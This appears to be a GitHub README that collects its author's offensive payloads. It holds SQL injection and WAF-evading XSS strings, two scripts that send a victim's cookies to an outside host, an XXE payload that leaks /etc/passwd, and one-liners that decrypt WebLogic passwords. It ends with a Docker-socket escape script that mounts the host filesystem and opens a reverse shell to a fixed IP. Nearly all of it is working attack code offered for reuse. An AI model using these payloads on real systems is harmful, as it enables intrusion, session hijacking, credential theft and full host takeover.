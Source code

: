 ## Just a useless set of payload used by me. Saved here for remembrance.
##### Payloads List
* SQL Injection
  * Time Based Blind:
    - `(select(if(user()like(user()),sleep(4),sleep(2))))`
    - `x' AND (SELECT 4321 FROM (SELECT(SLEEP(2-(IF(20=20,0,5)))))x)-- asd`
    - `x' AND (SELECT 2312 FROM (SELECT(SLEEP(2)))asd)-- dsa`
  * Error Based:
    - `x'.and.(select.count(*).from.shouldNotExistTable)=1.or.'1'='0.` (this is for error based sqli and should return error like : "Table 'x.shouldNotExistTable' doesn't exist")

* Cross Site Scripting
  - `[document.domain].find(confirm)` (helped me to bypass WAFs/filters or useful if input is echoed or used as variable in js files)
  - `['h0nus'].find(window[String.fromCharCode(97,108,101,114,116)])` (pops an alert with h0nus string :) useful for waf bypasses or evade checks)
  - `('asd').link(eval("var asd=new Function('return prompt(\"h0nus\")'); asd();"))` (pops a prompt with h0nus string )
  - `('asd').anchor(prompt());` (just pops a prompt) 
  - `var url="https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies
  - `var url="https://cors-anywhere.herokuapp.com/https://any.host.name/",params="asd="+document.cookie,http=new XMLHttpRequest;http.open("GET",url+"?"+params,!0),http.send(null);` To steal cookies and bypass/beat CORS

* XML External Entity
```
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "https://docs.oracle.com/cd/E13153_01/wlcp/wlss40/sip-app_1_0.dtd.txt">
<!ENTITY % condition 'aaa)>
<!ENTITY &#x25; file SYSTEM "/etc/passwd">
<!ENTITY &#x25; eval "
<!ENTITY &#x26;#x25; error SYSTEM &#x27;http://&#x25;file;:asd@localhost:22&#x27;>">
&#x25;eval;
&#x25;error;
<!ELEMENT aa (bb'>
%local_dtd;
]>
```
  * (Used when i had no space left for internal entities into payload/dtd) 
  * `<![CDATA[ <script>prompt(2)</script> ]]>` (Sometimes WAFS block by keywords like DOCTYPE, ENTITY & ect, but you can inject into `<![CDATA[X]]>` )

### PWN scripts/tips
* Oracle DB:
  * Oneliner extract data: `echo "QUERY" | /PATH/TO/ORACLE/CLIENT/bin/sqlplus USER/PASSr@IP:PORT/SERVICE`
* WebLogic:
  * Get Username:
    * Get file PATH_OF_WEBLOGIC/config/backup_config.xml and search for "<default-realm>" and get the user there.
  * Dump Password:
    * `echo "domain=\"PATH_OF_WEBLOGICSERVER\";service=weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain);encryption=weblogic.security.internal.encryption.ClearOrEncryptedService(service); print encryption.decrypt(\"{AES}HASH\");exit" | /PATH/OF/wlst.sh`

* Docker:
  * Get all containers or images:
    * `curl -i -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json`

  * Create a new container
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H "Content-Type: application/json" \
    --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["bash", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
    http://localhost/containers/container_id/exec`

  * Start the newer container with the command
    * `curl -i -s --unix-socket /var/run/docker.sock -X POST \
    -H 'Content-Type: application/json' \
    --data-binary '{"Detach": false,"Tty": false}' \
    http://localhost/exec/exec_id/start`
    
  * Final PoC:
    * `#!/bin/bash
    pay="bash -c 'bash -i >& /dev/tcp/10.10.14.194/7777 0>&1'"
    payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
    response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
    revShellContainerID=$(echo "$response" | cut -d'"' -f4)
    curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
    sleep 1
    curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"`
